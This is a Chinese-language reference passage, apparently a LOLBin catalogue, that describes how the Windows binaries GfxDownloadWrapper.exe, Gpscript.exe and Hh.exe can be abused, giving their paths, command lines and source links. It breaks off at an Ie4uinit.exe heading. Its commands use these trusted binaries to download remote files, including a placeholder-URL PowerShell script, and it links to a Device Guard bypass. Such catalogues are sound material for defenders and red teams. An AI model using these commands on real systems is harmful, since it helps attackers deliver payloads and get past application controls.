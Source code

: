 英特尔图形控制面板使用GfxDownloadWrapper.exe来进行远程文件下载，接收第一个参数URL和目标文件路径。

文件路径:
```
c:\windows\system32\driverstore\filerepository\64kb6472.inf_amd64_3daef03bbe98572b\
c:\windows\system32\driverstore\filerepository\cui_comp.inf_amd64_0e9c57ae3396e055\
c:\windows\system32\driverstore\filerepository\cui_component.inf_amd64_0219cc1c7085a93f\
```
- 执行方式：
```
C:\Windows\System32\DriverStore\FileRepository\igdlh64.inf_amd64_[0-9]+\GfxDownloadWrapper.exe "URL" "DESTINATION FILE"
```
- 参考资料：
```
https://www.sothis.tech/author/jgalvez/
```
## Gpscript.exe
- 使用说明：

组策略使用Gpscript.exe来处理脚本。

文件路径:
```
C:\Windows\System32\gpscript.exe
C:\Windows\SysWOW64\gpscript.exe
```
- 执行方式：
```
Gpscript /logon
Gpscript /startup
```
- 参考资料：
```
https://oddvar.moe/2018/04/27/gpscript-exe-another-lolbin-to-the-list/
```
## Hh.exe
- 使用说明：

hh.exe文件是其HTML帮助可执行程序，它是合法的Windows核心文件。 通过单击文件或链接的菜单项打开“编译的帮助文件”（类型.chm）时，它将运行。 通过调用HTML帮助ActiveX控件，它将使帮助文件在帮助查看器中打开。 

文件路径:
```
C:\Windows\System32\hh.exe
C:\Windows\SysWOW64\hh.exe
```
- 执行方式：
```
HH.exe http://some.url/script.ps1
HH.exe c:\windows\system32\calc.exe
```
- 参考资料：
```
https://oddvar.moe/2017/08/13/bypassing-device-guard-umci-using-chm-cve-2017-8625/
```
## Ie4uinit.exe
- 使用说明：
